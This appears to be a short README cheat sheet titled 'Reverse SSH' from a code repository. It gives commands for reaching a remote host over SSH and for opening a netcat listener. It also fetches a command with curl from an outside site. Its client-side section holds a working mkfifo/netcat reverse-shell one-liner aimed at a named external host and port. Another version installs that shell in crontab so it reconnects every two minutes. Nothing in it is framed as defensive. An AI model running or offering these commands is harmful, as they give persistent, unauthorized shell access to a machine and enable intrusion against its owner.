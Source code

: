# Reverse SSH

### Ingredients

### Description 

- SSH on remote pi

```
ssh [USER]@[HOSTNAME] -p [SSH_PORT]
ssh root@pipeter.asuscomm.com -p 22222
```

- Listen on port (Custom)

```
fifa
```
or:

```
nc -lvp [PORT]
nc -lvp 4444
```

- Client Side

```
# get cmd
curl hackyll.com/fifo2

# i.e.
crontab -l | { cat; echo "*/2 * * * * nohup -- \"\$(rm -f /tmp/g; mkfifo /tmp/g; /bin/sh 0< /tmp/g | nc pipeter.asuscomm.com 4444 1> /tmp/g)\"  >/dev/null 2>&1 & >/dev/null 2>&1"; } | crontab -

One time only:
rm -f /tmp/g; mkfifo /tmp/g; /bin/sh 0< /tmp/g | nc pipeter.asuscomm.com 4444 1> /tmp/g
```
